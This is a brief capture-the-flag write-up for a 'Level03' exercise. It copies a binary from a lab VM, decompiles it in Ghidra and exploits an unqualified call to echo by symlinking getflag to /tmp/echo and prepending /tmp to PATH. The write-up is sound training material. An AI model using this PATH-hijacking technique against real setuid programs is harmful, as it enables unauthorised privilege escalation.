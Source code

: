 # Level03

Download the level03 file on your local machine.
>`scp -P 4242 level03@<VM address>:level03 .`

Use ***Ghidra*** to decompile the code.
The program makes an unsecure call to `echo` without specifying the absolut path. We'll create a symlink to `getflag` and put it first in the `$PATH`.
>`ln -s /bin/getflag /tmp/echo`

>`export PATH="/tmp:$PATH"`

Get the flag.
>`./level03`
